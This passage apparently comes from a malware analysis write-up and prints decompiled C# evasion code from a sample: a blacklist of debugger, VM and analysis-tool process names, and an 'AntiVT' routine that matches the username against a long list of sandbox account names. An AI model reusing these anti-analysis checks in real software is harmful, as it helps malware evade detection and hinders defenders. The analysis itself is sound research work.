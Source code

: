 ```cs
			}
			return false;
		}

		// Token: 0x0400003C RID: 60
		[Nullable(1)]
		public static readonly string[] blackListedProcesses = new string[]
		{
			"ProcessHacker.exe", "httpdebuggerui.exe", "wireshark.exe", "fiddler.exe", "regedit.exe", "cmd.exe", "taskmgr.exe", "vboxservice.exe", "df5serv.exe", "processhacker.exe",
			"vboxtray.exe", "vmtoolsd.exe", "vmwaretray.exe", "ida64.exe", "ollydbg.exe", "pestudio.exe", "vmwareuser.exe", "vgauthservice.exe", "vmacthlp.exe", "vmsrvc.exe",
			"x32dbg.exe", "x64dbg.exe", "x96dbg.exe", "vmusrvc.exe", "prl_cc.exe", "prl_tools.exe", "qemu-ga.exe", "joeboxcontrol.exe", "ksdumperclient.exe", "xenservice.exe",
			"joeboxserver.exe", "devenv.exe", "IMMUNITYDEBUGGER.EXE", "ImportREC.exe", "reshacker.exe", "windbg.exe", "32dbg.exe", "64dbg.exex", "protection_id.exex", "scylla_x86.exe",
			"scylla_x64.exe", "scylla.exe", "idau64.exe", "idau.exe", "idaq64.exe", "idaq.exe", "idaq.exe", "idaw.exe", "idag64.exe", "idag.exe",
			"ida64.exe", "ida.exe", "ollydbg.exe"
		};
	}
}
```

AntiVT appears to be checking for usernames commonly associated with VirusTotal:
```cs
namespace Evasion
{
	// Token: 0x0200001C RID: 28
	public static class AntiVT
	{
		// Token: 0x0600003A RID: 58 RVA: 0x0000468C File Offset: 0x0000288C
		public static bool IsVirusTotal()
		{
			string userName = Environment.UserName;
			return Array.IndexOf<string>(AntiVT.VtPCNames, userName) > -1;
		}

		// Token: 0x0400003D RID: 61
		[Nullable(1)]
		public static readonly string[] VtPCNames = new string[]
		{
			"05h00Gi0", "3u2v9m8", "43By4", "4tgiizsLimS", "6O4KyHhJXBiR", "7wjlGX7PjlW4", "8Nl0ColNQ5bq", "8VizSM", "Abby", "Amy",
			"AppOnFlySupport", "ASPNET", "azure", "BUiA1hkm", "BvJChRPnsxn", "cM0uEGN4do", "cMkNdS6", "DefaultAccount", "dOuyo8RV71", "DVrzi",
			"e60UW", "ecVtZ5wE", "EGG0p", "Frank", "fred", "G2DbYLDgzz8Y", "george", "GjBsjb", "Guest", "h7dk1xPr",
			"h86LHD", "Harry Johnson", "HEUeRzl", "hmarc", "ICQja5iT", "IVwoKUF", "j6SHA37KA", "j7pNjWM", "John", "jude",
			"Julia", "kEecfMwgj", "kFu0lQwgX5P", "KUv3bT4", "Lisa", "lK3zMR", "lmVwjj9b", "Louise", "Lucas", "mike",
			"Mr.None", "noK4zG7ZhOf", "o6jdigq", "o8yTi52T", "OgJb6GqgK0O", "patex", "PateX", "Paul Jones", "pf5vj", "PgfV1X",
			"PqONjHVwexsS", "pWOuqdTDQ", "PxmdUOpVyx", "QfofoG", "QmIS5df7u", "QORxJKNk", "qZo9A", "RDhJ0CNFevzX", "RGzcBUyrznReg", "S7Wjuf",
			"server", "SqgFOf3G", "Steve", "test", "TVM", "txWas1m2t", "umyUJ", "Uox1tzaMO", "User01", "w0fjuOVmCcP5A",
			"WDAGUtilityAccount", "XMiMmcKziitD", "xPLyvzr8sgC", "ykj0egq7fze", "DdQrgc", "ryjIJKIrOMs", "nZAp7UBVaS1", "zOEsT", "l3cnbB8Ar5b8", "xUnUy",
			"fNBDSlDTXY", "vzY4jmH0Jw02", "gu17B", "UiQcX", "21zLucUnfI85", "OZFUCOD6", "8LnfAai9QdJR", "5sIBK", "rB5BnfuR2", "GexwjQdjXG",
			"IZZuXj", "ymONofg", "dxd8DJ7c", "JAW4Dz0", "GJAm1NxXVm", "UspG1y1C", "equZE3J", "BXw7q", "lubi53aN14cU", "5Y3y73",
```